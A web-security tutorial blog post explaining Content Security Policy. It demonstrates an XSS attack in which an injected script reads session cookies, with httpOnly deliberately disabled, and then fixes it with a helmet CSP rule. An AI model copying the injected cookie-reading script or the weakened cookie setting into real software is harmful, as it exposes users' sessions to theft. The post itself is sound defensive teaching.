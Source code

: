 Web Security 06 CSP
#########################################

:date: 2019-02-21
:tags: Security, Web, CSP, Web Security
:category: Security
:slug: Web_Security_06_CSP
:author: Brian Shen
:summary: Web Security 06 - CSP

.. _Web_Security_06_CSP:

.. contents::

All the sample code is in https://github.com/brianshen1990/WebSecurity .

What is Content Security Policy
********************************

The HTTP Content-Security-Policy response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks (XSS).


For example, if I open my github blog, it will load resources from Google. I trust google, so It's OK that some google scripts are in my site.

.. figure:: /images/security/WebSecurity16.png

But what if my site load some resource from other site that I don't trust? So CSP is very important in this situation.

The syntax of CSP is simple, but we can define complex situations.

:code:`Content-Security-Policy: <policy-directive>; <policy-directive>`

For example: 

.. code-block:: bash 

    Content-Security-Policy: default-src 'self' http://example.com;
                             script-src http://example.com/

This definition means all resources can be only loaded from the current site and http://example.com, but scripts can be only loaded from http://example.com/.

There are many kinds of source:

- child-src
- connect-src
- font-src
- frame-src
- img-src
- manifest-src
- media-src
- object-src
- prefetch-src
- script-src
- style-src
- worker-src

Sample
*********

Let's assume one  bad user in our blog system post a blog. The content includes some malicious scripts. 

And when other users read his article, the page will load like this :code:`staticFile/blogView.html` :

.. code-block:: html 

    <html>
    <head>
      <script type="text/javascript" src="jquery-3.3.1.min.js"></script>
    </head>
    <body>
      <div>
        <h5>Blog Title: Sample CSP</h5>
      </div>

      <div id="blogContent">
        
        <p>This is the content of my blog.</p>
        <script type="text/javascript" src="http://localhost:8889/hackCSP.js"></script>
        <p>And I will show you how dangerous if we do not use CSP.</p>

      </div>
    </body>
    </html>

To make the demo more simple, let assume that we do not set httpOnly to our cookies :code:`index.js` :

.. code-block:: javascript

    app.use(session({
      secret: 'our apps little secret',
      resave: false,
      saveUninitialized: true,
      cookie: { maxAge: 60000, httpOnly: false }
    }))

Since we load scripts from 8889, so let's add a malicious script :code:`staticHack/hackCSP.js` :

.. code-block:: javascript

    $(document).ready(function () {
        var xxx = document.cookie;
        alert('I got cookie:' + xxx);
    })

now let's begin:

.. code-block:: bash 

    node index.js
    node indexHack.js 


Open http://localhost:8888 to login, and then open http://localhost:8888/blogView.html :

.. figure:: /images/security/WebSecurity17.png

Now we get the cookie, and we can use it to do anything.


How to fix
************

Actually, there are many ways to fix this problem:

- Cookie httpOnly
- User Content Filter
- Content Security Policy 

We will use Content Security Policy to solve this problem. So let's do a little modification to our safe site :code:`indexSafe.js` :


.. code-block:: javascript

    app.use(helmet.contentSecurityPolicy({
      directives: {
        defaultSrc: ["'self'"]
      }
    }));

and run again:

.. code-block:: bash 

    node indexSafe.js
    node indexHack.js 

.. figure:: /images/security/WebSecurity18.png

We can see from the console that the resources from 8889 are refused to load.

Reference
***********

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy

